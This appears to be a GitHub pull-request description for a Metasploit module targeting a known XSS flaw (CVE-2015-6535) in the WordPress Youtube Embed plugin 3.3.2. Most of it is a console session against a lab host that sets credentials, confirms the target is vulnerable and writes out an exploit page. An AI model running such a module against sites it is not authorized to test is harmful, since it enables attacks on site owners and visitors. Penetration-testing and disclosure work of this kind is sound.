

#### Add Wordpress Plugin Youtube Embed XSS Vulnerability.

  Application: Wordpress Plugin 'Youtube Embed' 3.3.2
  Homepage: https://wordpress.org/plugins/youtube-embed
  Source Code: https://downloads.wordpress.org/plugin/youtube-embed.3.3.2.zip
  References: https://wpvulndb.com/vulnerabilities/8163
  Active Install: +30.000

#### Vulnerable packages*
        
  3.3.2
  
#### Usage:

##### Linux (Ubuntu 14.04.2 LTS):
```
msfdevel 192.168.1.55 shell[s]:0 job[s]:0 msf>  use auxiliary/scanner/http/wp_youtube_embed_xss_scanner 
msfdevel 192.168.1.55 shell[s]:0 job[s]:0 msf> auxiliary(wp_youtube_embed_xss_scanner)  show options 

Module options (auxiliary/scanner/http/wp_youtube_embed_xss_scanner):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads
   VHOST                       no        HTTP server virtual host
   WP_PASS                     yes       A valid password
   WP_USER                     yes       A valid username

msfdevel 192.168.1.55 shell[s]:0 job[s]:0 msf> auxiliary(wp_youtube_embed_xss_scanner)  info 

       Name: WordPress Youtube Embed XSS Scanner
     Module: auxiliary/scanner/http/wp_youtube_embed_xss_scanner
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2015-08-26

Provided by:
  Unknown
  Roberto Soares Espreto <robertoespreto@gmail.com>

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target address range or CIDR identifier
  RPORT      80               yes       The target port
  TARGETURI  /                yes       The base path to the wordpress application
  THREADS    1                yes       The number of concurrent threads
  VHOST                       no        HTTP server virtual host
  WP_PASS                     yes       A valid password
  WP_USER                     yes       A valid username

Description:
  This module attempts to exploit a Cross-Site Scripting in Youtube 
  Embed Plugin for Wordpress, version 3.3.2 and likely prior in order 
  if the instance is vulnerable.

References:
  http://cvedetails.com/cve/2015-6535/
  https://wpvulndb.com/vulnerabilities/8163
  http://seclists.org/bugtraq/2015/Aug/146
  https://packetstormsecurity.com/files/133340/

msfdevel 192.168.1.55 shell[s]:0 job[s]:0 msf> auxiliary(wp_youtube_embed_xss_scanner)  set RHOSTS 192.168.1.63
RHOSTS => 192.168.1.63
msfdevel 192.168.1.55 shell[s]:0 job[s]:0 msf> auxiliary(wp_youtube_embed_xss_scanner)  check
[-] Check failed: The following options failed to validate: WP_USER, WP_PASS.
[*] Checked 1 of 1 hosts (100% complete)
msfdevel 192.168.1.55 shell[s]:0 job[s]:0 msf> auxiliary(wp_youtube_embed_xss_scanner)  set WP_USER espreto
WP_USER => espreto
msfdevel 192.168.1.55 shell[s]:0 job[s]:0 msf> auxiliary(wp_youtube_embed_xss_scanner)  set WP_PASS R@x0rP@55
WP_PASS => R@x0rP@55
msfdevel 192.168.1.55 shell[s]:0 job[s]:0 msf> auxiliary(wp_youtube_embed_xss_scanner)  show missing 

Module options (auxiliary/scanner/http/wp_youtube_embed_xss_scanner):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

msfdevel 192.168.1.55 shell[s]:0 job[s]:0 msf> auxiliary(wp_youtube_embed_xss_scanner)  check
[*] 192.168.1.63:80 - The target appears to be vulnerable.
[*] Checked 1 of 1 hosts (100% complete)
msfdevel 192.168.1.55 shell[s]:0 job[s]:0 msf> auxiliary(wp_youtube_embed_xss_scanner)  run

[+] 192.168.1.63:80 - Vulnerable to Cross-Site Scripting the Youtube Embed 3.3.2 plugin for Wordpress
[+] Save in: /home/espreto/.msf4/local/80743596.html
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msfdevel 192.168.1.55 shell[s]:0 job[s]:0 msf> auxiliary(wp_youtube_embed_xss_scanner)  firefox /home/espreto/.msf4/local/80743596.html
[*] exec: firefox /home/espreto/.msf4/local/80743596.html

msfdevel 192.168.1.55 shell[s]:0 job[s]:0 msf> auxiliary(wp_youtube_embed_xss_scanner)
```
This will open the browser:


